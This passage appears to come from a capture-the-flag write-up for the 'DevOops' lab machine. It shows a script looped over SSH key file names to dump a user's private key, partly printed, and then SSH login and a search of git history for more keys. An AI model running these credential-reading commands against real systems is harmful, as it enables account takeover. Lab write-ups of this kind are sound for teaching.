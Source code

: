 Successfully read roosa’s SSH private key.

```bash
for key in {'id_rsa','id_dsa','id_ecdsa','roosa.key','id_ed25519'}; do python3 devoops.py -t 10.129.219.224 -f /home/roosa/.ssh/${key}; done

[+] Dumped /home/roosa/.ssh/id_rsa:

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
...
```

Downloaded the private key.

```bash
python3 devoops.py -t 10.129.219.224 -f /home/roosa/.ssh/id_rsa -w

[+] Saved /home/roosa/.ssh/id_rsa as id_rsa.dmp
```

Set the right permissions `chmod 600 id_rsa.dmp` and connected via SSH to read the flag.

```
ssh -i id_rsa.dmp roosa@10.129.219.224
roosa@devoops:~$ whoami
roosa

roosa@devoops:~$ hostname
devoops

roosa@devoops:~$ cat user.txt 
f23d440a22a551fd****************
```

# PrivEsc

There was a user called ‘git’, so I decided to look for .git directories.

```
roosa@devoops:~$ find / -name .git 2>/dev/null
/home/roosa/work/blogfeed/.git
```

We have full access as the owner.

```bash
roosa@devoops:~$ ls -lah /home/roosa/work/blogfeed/ | grep .git
drwxrwx--- 8 roosa roosa 4.0K Mar 26  2021 .git
```

Inspecting the logs `git log -c` led us to discover another private key.
